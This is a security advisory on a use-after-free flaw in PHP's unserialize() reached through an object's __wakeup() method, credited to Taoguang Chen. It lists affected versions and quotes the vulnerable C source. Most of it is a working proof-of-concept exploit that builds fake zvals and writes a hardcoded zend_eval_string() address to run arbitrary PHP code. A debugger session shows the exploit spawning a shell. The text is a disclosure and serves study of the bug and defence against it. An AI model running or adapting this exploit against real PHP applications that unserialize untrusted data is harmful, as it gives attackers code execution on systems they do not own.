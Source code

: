 #Use After Free Vulnerability in unserialize()
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.2.3 - Release Date: 2015.3.20
 
> A use-after-free vulnerability was discovered in unserialize() with a specially defined object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5 <= 5.3.29  
Affected is PHP 4 <= 4.4.9

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` 
static inline int object_common2(UNSERIALIZE_PARAMETER, zend_long elements)
{
	zval retval;
	zval fname;

	if (Z_TYPE_P(rval) != IS_OBJECT) {
		return 0;
	}

	//??? TODO: resize before
	if (!process_nested_data(UNSERIALIZE_PASSTHRU, Z_OBJPROP_P(rval), elements, 1)) {
		return 0;
	}

	ZVAL_DEREF(rval);
	if (Z_OBJCE_P(rval) != PHP_IC_ENTRY &&
		zend_hash_str_exists(&Z_OBJCE_P(rval)->function_table, "__wakeup", sizeof("__wakeup")-1)) {
		ZVAL_STRINGL(&fname, "__wakeup", sizeof("__wakeup") - 1);
		BG(serialize_lock)++;
		call_user_function_ex(CG(function_table), rval, &fname, &retval, 0, 0, 1, NULL);
```

A specially defined __wakeup() magic method lead to various problems.

The simple code:

```
<?php
 
class evilClass {

	public $var;

	function __wakeup() {
		unset($this->var);
//		$this->var = 'ryat';
	}
}

$data = unserialize('a:2:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;R:4;}');

?>
```
 
Object properties assignment or destroy operation leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

```
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:4;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\xff\xff\xff\xff";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;a:1:{i:0;R:4;}}}';

$z = unserialize($data2);
intval($z[2]);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

class evilClass {
	
	public $var;
	
	function __wakeup() {
		unset($this->var);
//		$this->var = 'ryat';
	}
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

```
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```
